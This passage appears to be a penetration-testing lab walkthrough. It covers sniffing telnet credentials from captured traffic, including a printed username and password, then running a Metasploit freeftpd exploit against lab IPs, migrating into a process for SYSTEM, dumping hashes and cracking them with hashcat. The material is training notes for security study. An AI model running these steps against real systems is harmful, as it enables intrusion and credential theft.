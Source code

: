 Analyze the traffic and steal valid credentials

```
filter: telnet
follow tcp stream
```

elsuser:Mys3crtP455

Login into the telnet server

```
telnet -l elsuser 10.100.13.37
```

----

### Metasploit

Find the target in the network

```
sudo nmap -sn <ip>/<subnet>
```

Identify available services on the target

```
sudo nmap -sC -sV <ip>
```

Find a vulnerable service in Metasploit

```
msfconsole
```

```
search freeftpd
use 0
```

Configure the module and exploit the machine

```
set RHOSTS 192.168.99.12
set LHOST tap0
run
```

Obtain SYSTEM privilage on the machine

```
migrate 1488
```

Get password hashes and crack them

```
hashdump
```

```
hashcat -m 3000 -o crack.txt /usr/share/wordlist/rockyou.txt
```
